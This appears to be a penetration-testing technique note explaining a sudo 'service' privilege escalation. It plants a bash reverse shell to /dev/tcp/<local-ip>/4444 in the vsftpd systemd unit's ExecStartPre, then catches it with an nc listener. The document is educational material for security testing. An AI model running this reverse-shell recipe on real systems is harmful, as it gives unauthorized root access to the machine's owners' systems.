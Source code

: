 ```yaml
---
title: Sudo Service Privilege Escalation
description: The service command is vulnerable to privilege escalation if we can execute as root.
tags:
    - Privilege Escalation
refs:
date: 2023-02-11
draft: false
---
```


## Investigation

```sh
sudo -l

(ALL : ALL) /usr/sbin/service vsftpd restart
```

If we can execute **service** command as root, we may be able to escalate to root privilege.

<br />

## Exploitation

### 1. Find the Location of the Config File

Assume we can operate the **vsftpd** service as root.
Firse off, find the service config file for vsftpd.

```sh
find / -name "*vsftpd*"
```

For instance, we'll find the location as below.

```sh
/lib/systemd/system/vsftpd.service
/etc/systemd/system/multi-user.target.wants/vsftpd.service
```

When getting the locations, the next thing to do is to check the permission.
If we have a write permission for the above each files, we can update the execution when vsftpd started.

### 2. Update the Config File

Insert the payload for reverse shell to the value of the **“ExecStartPre”**. Doing this, we can get a shell from our listener when the FTP daemon restarted.

```sh
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=/bin/bash -c 'bash -i >& /dev/tcp/<local-ip>/4444 0>&1'

[Install]
WantedBy=multi-user.target
```

Then we need to reload the daemon.

```sh
systemctl daemon-reload
```

### 3. Execution

In local machine, start listener for getting a shell.

```sh
nc -lvnp 4444
```

Now execute the command which can be executed with sudo.

```sh
sudo /usr/sbin/service vsftpd restart
```

We should get a shell as root user.

<br />
